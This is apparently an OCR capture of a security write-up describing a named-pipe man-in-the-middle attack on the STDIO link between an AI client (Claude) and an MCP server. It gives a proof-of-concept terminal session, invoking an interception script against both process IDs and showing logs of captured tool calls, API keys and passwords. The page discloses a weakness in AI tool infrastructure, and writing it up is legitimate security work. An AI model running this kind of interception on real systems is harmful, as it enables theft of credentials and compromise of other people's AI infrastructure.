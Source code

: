 ## The Brutal Truth

A technique from 1970s UNIX can completely compromise 2020s AI infrastructure because:
1. **Fundamentals haven't changed**: STDIO is still STDIO
2. **Old assumptions**: "Same user = trusted"
3. **New context**: AI systems make it catastrophic

Your financial institution's fancy AI system can be owned by a trick older than most of its employees!

## Proof of Concept

```bash
# Watch it work in real time
$ ./named_pipe_mitm.sh $(pgrep claude) $(pgrep mcp-server)
[+] Creating named pipes...
[+] Setting up interception...
[+] Attaching to Claude (PID 1234)...
[+] Redirecting Claude's STDIO...
[+] Attaching to MCP (PID 5678)...
[+] Redirecting MCP's STDIO...
[+] MITM active! Check /tmp/captured_*.log
[+] Press Ctrl+C to stop...

# In another terminal
$ tail -f /tmp/captured_stdin.log
{"method": "tools/call", "params": {"name": "database_query"...
{"api_key": "sk-prod-12345", "password": "SuperSecret!"...

# THE 70s CALLED - THEY WANT THEIR SECURITY BACK!
```

This is beautiful in its simplicity and terrifying in its effectiveness!